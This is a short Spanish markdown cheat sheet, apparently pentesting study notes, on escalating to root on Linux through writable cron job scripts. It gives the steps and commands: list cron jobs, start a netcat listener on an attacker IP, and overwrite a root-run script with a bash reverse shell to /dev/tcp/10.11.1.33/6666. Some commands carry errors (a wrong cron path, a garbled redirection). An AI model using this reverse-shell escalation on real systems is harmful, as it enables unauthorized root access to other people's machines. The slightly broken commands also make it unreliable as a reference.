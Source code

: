# CronJon vuln

## Vector de ataque

En esencia el vector de ataque es el siguiente:

1. Listar cronjobs
2. Revisar archivos ejecutables por root que sean manipulables
3. Inyectar shell reversa

## Listar cronjobs
Podemos revisar los cronjobs que se encuentren disponibles

```
cat /etc/cronjob
```

## Revisar

Esto arrojará una cantidad X de resultados con archivos ejecutados por usuarios (con suerte root) y comandos y/o scripts (con suerte manipulables)

Existe una probabilidad de que se haya eliminado el archivo pero no de los jobs, por lo que se pueden crear.

## Inyectar 
### maquina atacante (supongamos ip 10.11.1.33)

Se levanta una escucha activa con netcat

 ```
 nc -nvlp 6666 
 ```

 ### maquina victima
 Se reemplaza el contenido del script vulnerable por una shell reversa en bash (**verificar que tenga permisos de ejecución**)

 ```
 #!/bin/bash
 bash -i &< /dev/tcp/10.11.1.33/6666 0>&1
 ```

Esto permitirá que se ejecute la shell reversa con permisos de root

Eso permitirá escalar a root desde la maquina atacante

---
Happy exploiting - Zpx